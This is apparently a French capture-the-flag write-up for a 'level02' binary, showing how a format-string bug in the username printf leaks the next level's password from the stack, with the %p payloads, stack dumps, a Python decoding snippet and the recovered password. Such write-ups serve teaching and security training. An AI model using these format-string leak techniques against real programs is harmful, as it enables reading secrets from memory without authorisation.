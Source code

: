 level02:

Encore un programme qui demande un username et un password, mais cette fois il y a un appel a /bin/sh. Il est juste derrière un strcmp, où la string comparée est le contenu du .pass du level03. On peut peut-être la récupérer avec gdb. Mais en lançant le programme dans gdb on obtient
(gdb) r
Starting program: /home/users/level02/level02
ERROR: failed to open password file

Effectivement il faut avoir le euid root pour fread le password, donc on ne pourra pas voir la solution dans gdb.

En revanche on remarque que le printf qui print le username est vulnérable aux format strings. On va essayer de print le mot de passe tel quel.
Si on prend notre reproduction du code source générée à partir de Ghidra, qu'on le compile localement et qu'on remplace le .pass imprimé par un fichier local rempli de 40 A, on devrait pouvoir voir à partir de quelle adresse les A apparaissent.

On édite level02.c pour remplacer `/home/users/level03/.pass` par `cool.txt` puis
```
gcc -z execstack -fno-stack-protector -m64 level02.c -o level02test
python -c "print('A'* 40)" > cool.txt
python -c "print('%p '* 60)" et on copie l'output

./level02test
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
0x7ffd32ba09f0 0x25 0xffffffff 0x7f273e51fa70 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x207025 (nil) 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520  does not have access!

```
Les A apparaissent de %20$p a %24$p. Pas surprenant dans la mesure où le buffer fait 40 char (donc 8 * 5 comme on est en x64 cette fois contrairement aux autres binaires)

Si on répète l'opération avec le vrai binaire on obtient

```
0x7fffffffe4f0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

L'emplacement 20 correspond a 0x100000000, 21 a (nil) ça n'a pas l'air bon. Avant c'est toujours les mêmes caractères mais après ça varie beaucoup donc on peut assumer qu'il est décalé de 2, donc le mdp se situe de %22$p à %26$p (assignations mémoires pas exactement pareilles peut-être)

on lance level02 une derniere fois avec comme username `["%22$p","%23$p","%24$p","%25$p","%26$p"]` pour avoir un début de formattage

On prend l'array, on décode chaque bloc (en enlevant les 2 premiers caractères), puis on les inverse (comme ça a été encodé en little endian) :
```
ok = ["0x756e505234376848","0x45414a3561733951","0x377a7143574e6758","0x354a35686e475873","0x48336750664b394d"]
for s in ok:
    print(bytearray.fromhex(s[2:]).decode()[::-1], end="")
```

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H